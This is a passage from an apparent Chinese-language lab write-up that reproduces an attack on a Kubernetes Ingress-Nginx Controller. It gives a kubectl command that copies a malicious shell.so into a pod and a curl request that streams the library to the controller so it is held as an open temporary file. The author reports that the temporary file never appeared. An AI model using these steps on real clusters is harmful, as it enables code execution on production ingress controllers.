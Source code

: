 
可能是我这里配置给的不够，打过去后没一会，Ingres-Nginx Controller这个pod就重启了

## 脚本二

利用之前上传的shell.so

```
kubectl cp -n test ./shell.so python-app-587d84957c-bs2p7:/app/
```

通过长连接使进程挂起，这样可以让文件描述符fd持续处于开启状态

```
curl -X POST http://ingress-nginx-controller.ingress-nginx.svc/fake/addr --data-binary @shell.so -H "Content-Length: 165760" -H "Content-Type: application/octet-stream" -H "Connection: keep-alive"
```

此时Ingres-Nginx Controller会生成临时文件

![image-20250702200436794](images/21.png)

不过我运行了很多次，还是没有看到临时文件

![image-20250702200424145](images/22.png)
